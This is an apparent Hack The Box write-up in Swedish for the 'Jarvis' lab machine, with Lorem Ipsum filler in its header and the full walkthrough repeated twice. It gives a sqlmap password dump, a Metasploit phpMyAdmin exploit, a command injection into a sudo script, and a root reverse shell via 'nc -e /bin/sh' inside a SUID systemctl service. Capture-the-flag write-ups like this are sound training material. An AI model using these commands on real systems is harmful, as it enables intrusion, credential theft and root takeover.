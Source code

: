 ```yaml
---
title: Jarvis - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-06-25
image: images/jarvis_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/jarvis_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


### USER ###

1. Basic enum (nmap -Pn -n -sC -sV -O 10.10.10.143 & dirb http://10.10.10.143)

2. Klicka runt p� sidan och se att /room.php?cod=2 kan uts�ttas f�r sql-injection genom att s�tta ' i slutet av uri

3. Execute SQL-injection med sqlmap f�r att f� fram user/pw:
sqlmap -u http://10.10.10.143/room.php?cod=2 --current-user --current-db --passwords --tamper=space2comment --random-agent --users --method=GET 

4. Logga in med crackade creds (DB*****:im******) p� http://10.10.10.143/phpmyadmin/

5. Metasploit har en lfi-rce f�r phpmyadmin (multi/http/phpmyadmin_lfi_rce) k�r den f�r meterpreter-shell

6. lse.sh visar att simpler.py k�rs som sudo

7. pspy64 visar att simpler.py k�rs
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p

8. Ladda upp bash reverse shell och k�r scriptet sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
   Skriv in: "$(bash /tmp/reverse.sh)" utan "" f�r att f� user shell

9. cat /home/pepper/user.txt

### ROOT ###

1. Fixa SSH-access med pub-key
   local host: ssh-keygen
   remote host: mkdir ~/.ssh/
   remote host: vi ~/.ssh/authorized_keys  klistra in inneh�ll fr�n pub-key (/root/.ssh/id_rsa.pub)
   remote host: s�tt permission 700 p� .ssh och 644 p� authorized_keys samt att filen �gs av pepper
   local host: ssh pepper@10.10.10.143

2. lse -l1 visar att /bin/systemctl har suid
   Exploit info om bins med SUID: https://gtfobins.github.io/gtfobins/

3. Skapa en egen service via systemctl som skapar ett reverse root shell (gl�m inte starta nc innan):
    pepper@jarvis:/bin$ TF=$(mktemp).service
    pepper@jarvis:/bin$ echo '[Service]
    > Type=oneshot
    > ExecStart=/bin/sh -c "nc -e /bin/sh 10.10.14.5 4488"
    > [Install]
    > WantedBy=multi-user.target' > $TF
    pepper@jarvis:/bin$ ./systemctl link $TF
    pepper@jarvis:/bin$ ./systemctl enable --now $TF

4. cat /root/root.txt### USER ###

1. Basic enum (nmap -Pn -n -sC -sV -O 10.10.10.143 & dirb http://10.10.10.143)

2. Klicka runt p� sidan och se att /room.php?cod=2 kan uts�ttas f�r sql-injection genom att s�tta ' i slutet av uri

3. Execute SQL-injection med sqlmap f�r att f� fram user/pw:
sqlmap -u http://10.10.10.143/room.php?cod=2 --current-user --current-db --passwords --tamper=space2comment --random-agent --users --method=GET 

4. Logga in med crackade creds (DB*****:im******) p� http://10.10.10.143/phpmyadmin/

5. Metasploit har en lfi-rce f�r phpmyadmin (multi/http/phpmyadmin_lfi_rce) k�r den f�r meterpreter-shell

6. lse.sh visar att simpler.py k�rs som sudo

7. pspy64 visar att simpler.py k�rs
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p

8. Ladda upp bash reverse shell och k�r scriptet sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
   Skriv in: "$(bash /tmp/reverse.sh)" utan "" f�r att f� user shell

9. cat /home/pepper/user.txt

### ROOT ###

1. Fixa SSH-access med pub-key
   local host: ssh-keygen
   remote host: mkdir ~/.ssh/
   remote host: vi ~/.ssh/authorized_keys  klistra in inneh�ll fr�n pub-key (/root/.ssh/id_rsa.pub)
   remote host: s�tt permission 700 p� .ssh och 644 p� authorized_keys samt att filen �gs av pepper
   local host: ssh pepper@10.10.10.143

2. lse -l1 visar att /bin/systemctl har suid
   Exploit info om bins med SUID: https://gtfobins.github.io/gtfobins/

3. Skapa en egen service via systemctl som skapar ett reverse root shell (gl�m inte starta nc innan):
    pepper@jarvis:/bin$ TF=$(mktemp).service
    pepper@jarvis:/bin$ echo '[Service]
    > Type=oneshot
    > ExecStart=/bin/sh -c "nc -e /bin/sh 10.10.14.5 4488"
    > [Install]
    > WantedBy=multi-user.target' > $TF
    pepper@jarvis:/bin$ ./systemctl link $TF
    pepper@jarvis:/bin$ ./systemctl enable --now $TF

4. cat /root/root.txt